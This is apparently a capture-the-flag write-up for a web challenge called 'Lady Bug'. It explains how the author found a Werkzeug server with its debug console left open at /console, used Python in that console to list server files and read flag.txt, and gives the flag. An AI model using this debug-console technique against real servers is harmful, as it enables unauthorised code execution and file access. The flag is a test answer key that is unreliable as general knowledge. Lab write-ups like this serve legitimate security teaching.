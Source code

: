 # Lady Bug
Author: [gallifrey](https://github.com/gall1frey)

# Challenge

```
Want to check out the new Ladybug Cartoon? It's still in production, so feel free to send in suggestions!

Connect with one instance below:
http://one.jh2i.com:50018
```

# Solution
There was a contact page on the site, where I first spent a lot of time, but that 
wasn't the way to go.
The next obvious place was the search bar.
I tried searching random text and took a look at the request headers and response headers.

There, I found something interesting:

![](header.png)

The server is running werkzeug.
On googling stuff about werkzeug, I found that the debugging console is located at ```/console``` 
unless it is explicitly turned off.
Turns out it wasn't

![](console.png)

From here, I can use python to get the flag from the flag.txt file present on the server

```python

[console ready]
>>> from os import listdir
>>> from os.path import isfile, join
>>> files = [f for f in listdir('./') if isfile(join('./', f))]
>>> print(files)
['flag.txt', 'main.py', 'requirements.txt']

f = open('flag.txt','r').read()
>>> print(f)
flag{weurkzerg_the_worst_kind_of_debug}

```

Flag is
```
flag{weurkzerg_the_worst_kind_of_debug}
```
